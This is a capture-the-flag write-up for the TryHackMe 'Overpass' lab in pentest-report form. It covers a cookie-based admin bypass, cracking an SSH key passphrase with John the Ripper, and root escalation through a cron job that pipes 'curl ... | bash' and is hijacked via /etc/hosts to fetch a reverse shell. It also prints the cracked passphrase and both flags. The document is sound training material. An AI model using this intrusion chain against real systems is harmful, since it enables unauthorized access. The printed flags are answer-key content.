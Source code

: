 # TryHackMe: Overpass

## Challenge Description

What happens when a group of broke Computer Science students try to make a password manager?
Obviously a perfect commercial success!

There is a TryHackMe subscription code hidden on this box. The first person to find and activate it will get a one month subscription for free! If you're already a subscriber, why not give the code to a friend?

## Planning and Scoping

**Target**: 10.10.159.164

# Information Gathering and Reconnaissance

In this process, we used Nmap to scan the target for open ports and services. The command used was:

```bash
nmap -sC -sV 10.10.159.164
```

The open ports and their corresponding services and versions were:

| PORT  | STATE | SERVICE         | VERSION                                             |
|-------|-------|-----------------|-----------------------------------------------------|
| 22/tcp| open  | ssh             | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)|
| 80/tcp| open  | http            | Golang net/http server (Go-IPFS json-rpc or InfluxDB API)|

Next, we used Gobuster for directory brute forcing. The command used was:

```bash
gobuster dir -u 10.10.145.163 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt
```
The directories discovered by Gobuster were:

- /aboutus
- /admin
- /css
- /downloads
- /img


Upon further inspection of the /admin directory, we observed that a script named login.js was loaded. This script was found to contain a vulnerability that enables forced login through cookie manipulation. To bypass the login, all we have to do set the cookie.

```javascript
Cookies.set("SessionToken",statusOrCookie)
```

## Vulnerability Assessment

Based on the information gathered during the reconnaissance phase, the following vulnerabilities were identified:

1. Cookie Manipulation: The /admin directory contained a JavaScript file (login.js) that revealed a vulnerability. The script allows for the forced setting of the SessionToken cookie, which could be exploited to gain unauthorized access to the admin panel.

## Exploitation

### Cracking Passwords

Having successfully bypassed the login mechanism for the `/admin` panel by exploiting the cookie manipulation vulnerability, we were presented with an RSA private key. This key was passphrase-protected. However, we could attempt to crack it using the John the Ripper tool.

First, we converted the RSA private key into a format that John the Ripper can process. This was done using the `ssh2john` utility:

```bash
/opt/john/ssh2john.py id_rsa > id_rsa.john
```

Next, we used John the Ripper to attempt to crack the passphrase:

```bash
john id_rsa.john
```

The output revealed the passphrase to be `james13` for the `id_rsa` private key.

```bash
james13          (id_rsa)
```

With the passphrase cracked, we were able to log in to the SSH service using the username `james` and the cracked private key. Here is the command used:

```bash
ssh james@10.10.145.163 -i id_rsa
```

When prompted for the passphrase, we entered `james13`, granting us access to the system via the SSH service.

Upon logging in as James, we found a `~/.overpass` file in his home directory that we could decrypt using the `overpass` binary. Also, we were able to read user.txt to acquire the first flag.

`thm{65c1aaf000506e56996822c6281e6bf7}`

### Privilege Escalation

After examining the /etc/crontab, we noticed a root-executed job:

* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

We also found that we had access to the /etc/hosts file. We altered overpass.thm to redirect to our host machine and hosted a reverse shell at downloads/src/buildscript.sh to execute.

Finally, we read root.txt to obtain the second flag.

`thm{7f336f8c359dbac18d54fdd64ea753bb}`


## Recommendations

Post-assessment, we recommend implementing the following security measures to enhance the system's security:

1. **Cookie Security**: The application should enforce secure cookie handling practices to prevent unauthorized manipulation. Cookies should be properly encrypted and handled server-side to mitigate this risk.

2. **Service Updates**: Keep services like SSH and HTTP up-to-date to prevent exploitation of known vulnerabilities in older versions.

3. **Directory and File Permissions**: Adjust directory and file permissions to limit access to sensitive files and directories. This could help in preventing the exposure of files like RSA private keys.

4. **Cron Jobs**: Avoid running cron jobs as root unless necessary. Misconfigured cron jobs can lead to privilege escalation.

5. **Hosts File Restrictions**: Implement strict controls to prevent unauthorized modification of the /etc/hosts file. This can prevent redirect attacks.

6. **Secure Coding Practices**: Enforce secure coding practices to identify and eliminate vulnerabilities during the development phase. Regular code reviews and security audits can help in achieving this.

By addressing these issues, the system's overall security posture can be significantly improved, thereby preventing similar breaches in the future.